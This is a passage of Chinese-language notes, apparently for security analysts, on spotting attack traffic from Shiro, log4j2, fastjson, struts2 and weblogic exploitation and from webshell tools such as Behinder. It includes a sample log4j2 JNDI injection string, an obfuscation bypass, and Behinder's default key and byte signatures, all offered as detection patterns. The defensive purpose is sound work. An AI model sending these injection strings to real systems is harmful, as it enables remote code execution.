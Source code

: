 和运维确认 shiro 的版本，如果是 550 则对使用默认 key 的请求解密研判。

#### log4j2

log4j2 的特征是 ${}，例如 ${jndi:ldap://0.0.0.0:80/exploit}

log4j2 使用 jndi 注入，找恶意 url。

log4j2 流量可以看到 rmi 或者 ldap 字样。

log4j2 流量会出现 dns/ip 相关特征。

log4j2 混淆绕过会使用冒号，例如 ${::::-j}${what:-n}

log4j2 的影响范围包括：log4j1.x，spring boot，struts2, solr, vmware 产品线, flink, druid

#### fastjson

fastjson 的强特征是 json 数据以 @type 开头。

fastjson 用 json 传参，恶意流量的 json 参数含有 java 代码。

fastjson 流量会看到 rmi 或者 ldap 字样。

fastjson 的利用链 cc3、cc5 等，fastjson 有很多高危类。

#### struts2 

struts 2 的特征是 %{}（或是其 url 编码 %25%7B...%7D），并且请求体和响应体都包含 payload。

struts2 文件类型基本上是 .action 和 .jsp 文件。

#### weblogic

无强特征，请求体和响应体看到 java 代码则预判为攻击流量。

### webshell 工具的流量特征

这里说的 webshell 流量主要考虑：冰蝎、菜刀、哥斯拉、蚁剑。

#### 冰蝎 behinder

冰蝎 2.0-4.0 使用 16 位 md5 作为 aes 密钥。冰蝎 webshell 的默认密钥是 e45e329feb5d925b，即 rebeyond 的 md5 前 16 位，也可能遇到 admin 的 16 位 md5。

冰蝎 2.0-4.0 弱特征：同一个 ip 短时间频繁更换 user-agent。

冰蝎 4.0 有固定的请求头和响应头，请求字节头：dFAXQV1LORcHRQtLRlwMAhwFTAg/M ，响应字节头：TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd。

冰蝎 2.0-3.0 使用 aes 加密 + base64 编码；4.0 不再有连接密码的概念，自定义的传输协议算法就是连接密码。

冰蝎 3.0 连接 jsp 的 webshell 的请求数据包中的 content-type 字段常见为 application/octet-stream。

冰蝎 4.0 弱特征：Accept 字段为 Accept: application/json, text/javascript, /; q=0.01 意思是浏览器可以接受任何格式，但是更倾向于接受 application/json 和 text/javascript。

冰蝎 4.0 会使用例如 49700 之类的比较大的端口进行 tcp 连接，且端口依次增加。

冰蝎 4.0 使用长连接 Connection：Keep-Alive。
